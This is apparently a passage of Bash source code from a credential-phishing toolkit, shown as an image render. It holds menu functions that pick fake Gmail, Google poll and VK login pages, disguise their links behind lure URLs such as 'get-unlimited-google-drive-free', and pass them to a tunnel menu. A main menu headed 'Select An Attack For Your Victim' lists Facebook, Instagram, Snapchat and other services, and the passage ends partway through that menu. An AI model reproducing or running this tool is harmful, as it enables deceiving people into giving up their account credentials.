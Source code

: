 ## Gmail/Google
site_gmail() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Gmail Old Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Gmail New Login Page
		${RED}[${WHITE}03${RED}]${ORANGE} Advanced Voting Poll
	EOF

	read -p "${RED}[${WHITE}*${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 1 || "$REPLY" == 01 ]]; then
		website="google"
		mask='http://get-unlimited-google-drive-free'
		tunnel_menu
	elif [[ "$REPLY" == 2 || "$REPLY" == 02 ]]; then
		website="google_new"
		mask='http://get-unlimited-google-drive-free'
		tunnel_menu
	elif [[ "$REPLY" == 3 || "$REPLY" == 03 ]]; then
		website="google_poll"
		mask='http://vote-for-the-best-social-media'
		tunnel_menu
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; clear; banner_small; site_gmail; }
	fi
}

## Vk
site_vk() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page
	EOF

	read -p "${RED}[${WHITE}*${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 1 || "$REPLY" == 01 ]]; then
		website="vk"
		mask='http://vk-premium-real-method-2020'
		tunnel_menu
	elif [[ "$REPLY" == 2 || "$REPLY" == 02 ]]; then
		website="vk_poll"
		mask='http://vote-for-the-best-social-media'
		tunnel_menu
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; clear; banner_small; site_vk; }
	fi
}

## Menu
main_menu() {
	{ clear; banner; echo; }
	cat <<- EOF
		${RED}[${WHITE}::${RED}]${ORANGE} Select An Attack For Your Victim :
		${RED}[${WHITE}01${RED}]${ORANGE} Facebook      ${RED}[${WHITE}11${RED}]${ORANGE} Twitch       ${RED}[${WHITE}21${RED}]${ORANGE} DeviantArt
		${RED}[${WHITE}02${RED}]${ORANGE} Instagram     ${RED}[${WHITE}12${RED}]${ORANGE} Pinterest    ${RED}[${WHITE}22${RED}]${ORANGE} Badoo
		${RED}[${WHITE}03${RED}]${ORANGE} Google        ${RED}[${WHITE}13${RED}]${ORANGE} Snapchat     ${RED}[${WHITE}23${RED}]${ORANGE} Origin